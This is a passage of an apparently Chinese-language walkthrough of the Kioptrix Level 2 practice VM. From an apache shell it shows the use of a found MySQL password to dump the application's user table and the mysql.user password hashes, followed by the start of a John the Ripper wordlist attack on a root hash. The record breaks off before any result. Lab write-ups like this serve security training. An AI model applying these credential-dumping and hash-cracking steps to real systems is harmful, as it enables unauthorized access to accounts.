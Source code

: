 通过查看/etc/passwd 文件发现john是一个系统用户，尝试一下ssh登录

```
┌──(root㉿kali)-[~]
└─# ssh john@192.168.43.90
Unable to negotiate with 192.168.43.90 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

我这边连接爆了这样一个错误，尝试一下连接mysql发现连接失败，可以看到提示不允许远程连接

```
┌──(root㉿kali)-[~]
└─# mysql -h 192.168.43.90 -uroot -p 
Enter password: 
ERROR 1130 (HY000): Host '192.168.43.24' is not allowed to connect to this MySQL server
```

看来我们无法远程访问 MySQL 服务器。但是，我们可以通过直接从命令行将它们传递给 mysql 命令来运行单个 SQL 查询。让我们挖掘更多的信息：

```
apache@kioptrix.level2:/var/www/html$ mysql -u john -p webapp -e 'show tables'
Enter password: hiroshima
Tables_in_webapp
users
apache@kioptrix.level2:/var/www/html$ mysql -u john -p webapp -e 'describe users'
Enter password: hiroshima
Field   Type    Null    Key     Default Extra
id      int(11) YES             NULL
username        varchar(100)    YES             NULL
password        varchar(10)     YES             NULL
apache@kioptrix.level2:/var/www/html$ mysql -u john -p webapp -e 'select * from users'
Enter password: hiroshima
id      username        password
1       admin   5afac8d85f
2       john    66lajGGbla
```

通过查看/etc/passwd文件已经知道john这个用户不能通过ssh连接，已经知道数据库是mysql，我们尝试枚举 mysql.user 表以获取更多用户名和密码

```
apache@kioptrix.level2:/var/www/html$ mysql -u john -p mysql -e 'select user,password from user'
Enter password: hiroshima
user    password
root    5a6914ba69e02807
root    5a6914ba69e02807


john    5a6914ba69e02807
```

找到了一个root用户，但是密码被加密了，用john解一下

```
┌──(root㉿kali)-[~/Desktop/test]
└─# echo john:5a6914ba69e02807 > hashes

john hashes --wordlist=/usr/share/wordlists/rockyou.txt.gz --fork=4
Created directory: /root/.john
Warning: detected hash type "asa-md5", but the string is also recognized as "mysql"
Use the "--format=mysql" option to force loading these as that type instead
Warning: detected hash type "asa-md5", but the string is also recognized as "oracle"
Use the "--format=oracle" option to force loading these as that type instead
Warning: detected hash type "asa-md5", but the string is also recognized as "pix-md5"
Use the "--format=pix-md5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (asa-md5, Cisco ASA [md5($p.$s) (Cisco ASA) 256/256 AVX2 8x3])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
```